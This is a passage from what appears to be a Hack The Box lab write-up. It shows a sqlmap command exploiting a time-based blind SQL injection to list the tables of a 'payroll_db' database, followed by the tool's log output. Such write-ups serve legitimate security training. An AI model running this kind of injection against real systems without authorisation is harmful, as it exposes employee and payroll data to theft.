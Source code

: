 There are two DBs including default(information_schema). We need to investigate on `payroll_db`.
Let's try to fetch tables this time.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ sqlmap -r req.txt --batch --threads 10 -D payroll_db --tables

<SNIP>

[14:07:30] [INFO] adjusting time delay to 2 seconds due to good response times
position
[14:08:36] [INFO] retrieved: employee
[14:09:39] [INFO] retrieved: depart
[14:10:33] [ERROR] invalid character detected. retrying..
[14:10:33] [WARNING] increasing time delay to 3 seconds
ment
[14:11:17] [INFO] retrieved: payroll_items
[14:13:52] [INFO] retrieved: attendance
[14:15:29] [INFO] retrieved: employee_deductions
[14:19:02] [INFO] retrieved: employee_allowances
[14:21:14] [INFO] retrieved: users
[14:22:06] [INFO] retrieved: deductions
[14:23:51] [INFO] retrieved: 
[14:24:02] [ERROR] invalid character detected. retrying..
[14:24:02] [WARNING] increasing time delay to 4 seconds
payroll
[14:25:51] [INFO] retrieved: allowances
Database: payroll_db
[11 tables]
+---------------------+
| position            |
| allowances          |
| attendance          |
| deductions          |
| department          |
| employee            |
| employee_allowances |
| employee_deductions |
| payroll             |
| payroll_items       |
| users               |
+---------------------+
```


